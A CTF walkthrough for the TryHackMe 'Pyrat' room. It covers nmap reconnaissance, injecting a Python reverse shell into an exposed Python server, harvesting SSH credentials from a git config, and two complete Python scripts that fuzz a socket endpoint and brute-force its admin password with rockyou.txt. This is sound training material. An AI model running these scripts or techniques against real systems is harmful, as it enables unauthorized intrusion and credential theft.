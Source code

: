 # tryhackme-Pyrat-Writeup
![intro](https://github.com/user-attachments/assets/28e04153-3286-4a8a-8d50-29f529071f88)
# tryhackme-Pyratt-Writeup

This is a walkthrough for the tryhackme CTF Pyrat. I will not provide any flags or passwords as this is intended to be used as a guide. 

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -sV -sC -A -v $ip -oN
```

Command break down:

-sV

Service Version Detection: This option enables version detection, which attempts to determine the version of the software running on open ports. For example, it might identify an HTTP server as Apache with a specific version.
-sC

Default Scripts: This option runs a collection of default NSE (Nmap Scripting Engine) scripts that are commonly useful. These scripts perform various functions like checking for vulnerabilities, gathering additional information, and identifying open services. They’re a good starting point for gathering basic information about a host.
-A

Aggressive Scan: This option enables several scans at once. It combines OS detection (-O), version detection (-sV), script scanning (-sC), and traceroute (--traceroute). It’s useful for a comprehensive scan but can be intrusive and time-consuming.
-v

Verbose Mode: Enables verbose output, which provides more detailed information about the scan’s progress and results.
$ip

Target IP: This is a placeholder for the target IP address you want to scan. In practice, replace $ip with the actual IP of the machine you are targeting.
-oN

Output in Normal Format: This option saves the scan results in a plain text file format. After -oN, specify a filename where you want to store the output.

The scan reveals a simple http web server on port 8000, and ssh.

![nmap](https://github.com/user-attachments/assets/96e6f487-b646-49d4-97a9-f7a41358ce6f)

When visiting the webserver on $ip:8000, there is just a message to "try a more basic connection". 
Let's try to connect via netcat:
```bash
nc $ip 8000
```
After typing in a few cmds and thinking back to nmap showing that this is a python server, we can see that it accepts python cmds ex. print(33+55). 
Let's try inputting a python rev shell from revshells.com. Notice, since it is taking python cmds directly, do not inlude the python -c part of the shell. 

![www-data](https://github.com/user-attachments/assets/20065d7b-f457-4f62-a0c2-d9b4875bae10)

We now have a reverse shell as www-data. We are in the root directory so we don't have permission to ls in this directory. 
Running cat /etc/passwd reveals a user named think. I tried to navigate to home/think but we don't have permission. I then ran the find command to see what files and directories they have, which reveals /opt/dev/.git:

![think](https://github.com/user-attachments/assets/eb724ecd-2c11-406b-8570-102953979d5f)

Navigating to this directory we see a lot of files and dirs and www-data has read access to. The config file reveals credentials for think. Let's try to use these to ssh onto the target.

![ssh_think](https://github.com/user-attachments/assets/8b7b90ba-6939-4856-8c09-42550351c936)

Tbey worked, and we can now reveal the user flag from think's home dir.

I poked around the home dir but didn't seem to turn anything up. The hint says to "keep playing with the custom app" so I head back to /opt/dev/.git.

![logs](https://github.com/user-attachments/assets/7ac807a5-b250-488a-8c7a-1a1c77cc2fe3)

We can see some notes like 'added shell endpoint', and in logs there is a sha1 hash for a commit.

If we head back to /opt/dev and run the cmd git show (sha1 hash), it reveals the commit:

![git show](https://github.com/user-attachments/assets/c907c29f-2aa3-4a88-a68f-905a9dd49972)

This reveals the functionality of the python web server on port 8000. We see that it is asking for some specific data == 'some endpoint'. Then checks to see if you provide admin credentials, and if not, then the shell is www-data.

So I used this pythong script to run again the netcat connection to fuzz endpoints using the /dirb/common.txt wordlists. Here is the script:

```bash
import socket
import os

host = os.environ.get('ip')
if not host:
    print("Error: Environment variable 'ip' is not set")
    exit(1)

port = 8000

wordlist = "/usr/share/wordlists/dirb/common.txt"

def fuzz_endpoint(wordlist):
    unique_responses = set()  # Use a set to store unique responses
    try:
        with open(wordlist, 'r') as file:
            for line in file:
                command = line.strip()
                with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                    s.connect((host, port))
                    s.sendall(command.encode() + b'\n')
                    response = s.recv(1024).decode().strip()
                    if response and "is not defined" not in response and "leading zeros" not in response:
                        # Only add and print unique responses
                        if response not in unique_responses:
                            unique_responses.add(response)
                            print(f"Command: {command}")
                            print(f"Unique Response: {response}\n")
    except FileNotFoundError:
        print(f"File doesn't exist")
    except Exception as e:
        print(f"Error has occurred: {e}")

fuzz_endpoint(wordlist)
```
The script reveals that the endpoint is admin:

![endpoint](https://github.com/user-attachments/assets/7b852d3a-9fb5-4244-bfbf-2758ca275a47)

When we enter the admin endpoint the script prompts us for a password. Now I ran another script to fuzz the admin endpoint password prompt with rockyou.txt:

```bash
import socket
import os

host = os.environ.get('ip')
if not host:
    print("Error: Environment variable 'ip' is not set")
    exit(1)

port = 8000

wordlist = "/usr/share/wordlists/rockyou.txt"

def fuzz_password(wordlist):
    try:
        with open(wordlist, 'r', errors='ignore') as file:
            for password in file:
                # Clean up lines
                password = password.strip()
                # Establish connection to server
                with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                    s.connect((host, port))
                    # Send "admin" cmd to prompt for password
                    s.sendall(b'admin\n')
                    # Receive the password prompt
                    response = s.recv(1024).decode().strip()
                    if "password" in response.lower():
                        s.sendall((password + '\n').encode())
                        # Receive the response after entering the password
                        response = s.recv(1024).decode().strip()

                        # Check if the password is correct
                        if "password:" not in response.lower():
                            print(f'The password is: {password}')
                            return  # Exit the function if password is found
                    else:
                        print("Unexpected response from server")
                        return

        print("Password not found in wordlist")
    except FileNotFoundError:
        print(f"Wordlist file not found: {wordlist}")
    except Exception as e:
        print(f"Error has occurred: {e}")

fuzz_password(wordlist)
```
This script finishes pretty quickly to reveal a simple password. Now we can use the admin endpoint and password to gain a root shell and get the root flag! 

![root](https://github.com/user-attachments/assets/5ef050ec-6573-487a-aa9a-acd0c02fec82)
